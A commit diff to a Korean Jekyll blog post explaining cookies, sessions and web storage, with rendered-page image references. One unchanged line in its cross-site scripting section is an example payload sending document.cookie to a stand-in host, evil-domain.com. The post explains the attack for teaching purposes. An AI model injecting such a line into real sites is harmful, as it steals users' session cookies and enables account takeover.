

Before and after one commit to hellozin/hellozin.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the part 2248-4157 px from the top of the page at 82% size, without its empty margins (258-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 3790 px from its top, so only the background shows below that.

Commit message:
포스트 작성중

````diff
--- a/_posts/2019-04-16-cookie-session-webstorage.md
+++ b/_posts/2019-04-16-cookie-session-webstorage.md
@@ -85,9 +85,35 @@ Cross-site 스크립팅(XXS) 공격의 예
 (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
 ```
 
-과 **HttpOnly**
+### 세션
+
+세션이란 일정 시간동안 같은 브라우저로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 유지하는 기술입니다.
+
+클라이언트가 **Request** 를 보내면 **Response** 에 `Set-Cookie` 를 통해 클라이언트의 **유일한 ID값**을 생성해 부여하고 이를 통해 사용자 정보는 안전한 서버에 존재하며 클라이언트와 서버 간에는 ID 값만을 전달해 보안 위협을 감소시켜 줍니다.
+
+이 때 클라이언트에 저장되는 쿠키는 세션 종료 시 함께 소멸되는 "Memory Cookie" 타입을 가져 브라우저가 종료되면 세션과 관련된 쿠키도 삭제됩니다.
+
+### 웹 스토리지
+
+**웹 스토리지**는 서버가 아닌, 클라이언트에 데이터를 저장할 수 있도록 지원하는 **HTML5**의 새로운 기능입니다.
+
+**쿠키**와 기능 자체는 유사하지만 4KB 밖에 저장하지 못하는 쿠키와 다르게 **웹 스토리지**는 약 5MB 까지 저장공간을 이용할 수 있습니다. 웹 스토리지의 최신 스펙은 https://www.w3.org/TR/webstorage/ 에서 확인할 수 있습니다.
+
+웹 스토리지에는 **로컬 스토리지(local Storage)** 와 **세션 스토리지(session Storage)** 가 있습니다. 로컬 스토리지와 세션 스토리지는 각각의 고유한 특성이 있으며, 프로그래머의 필요에 따라 선택적으로 사용됩니다. 다음 항목에서는 로컬 스토리지와 세션 스토리지에 대한 각각의 특성에 대해 설명합니다.
+
+#### 로컬 스토리지
+
+로컬 스토리지는 브라우저 자체에 반영구적으로 데이터를 저장하며, 브라우저를 종료해도 데이터가 유지됩니다. 다만 도메인(domain)이 다른 경우 로컬 스토리지에 접근할 수 없습니다. 예를 들어 naver.com 로컬 스토리지에서 저장한 데이터는 google.com 에서 접근할 수 없는 것과 같습니다.
+
+#### 세션 스토리지
+
+세션 스토리지는 각 세션마다 데이터가 개별적으로 저장되며 로컬 스토리지와 다르게 세션을 종료하면 데이터가 자동으로 제거되며 같은 도메인이라도 세션이 다르면 데이터에 접근할 수 없습니다.
+
+출처: https://untitledtblog.tistory.com/47 [Untitled]
 
 ### Reference
 
 - [HTTP 쿠키 / MDN](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
 - [쿠키 옵션 - path & domain / 생활코딩](https://opentutorials.org/course/3387/21745)
+- [쿠키와 세션의 차이, 용도, 사용법 / 기본기를 쌓는 정아마추어 코딩블로그](https://jeong-pro.tistory.com/80)
+- [웹 스토리지 (Web Storage)의 특성과 사용법 / Bool](https://untitledtblog.tistory.com/47)
````
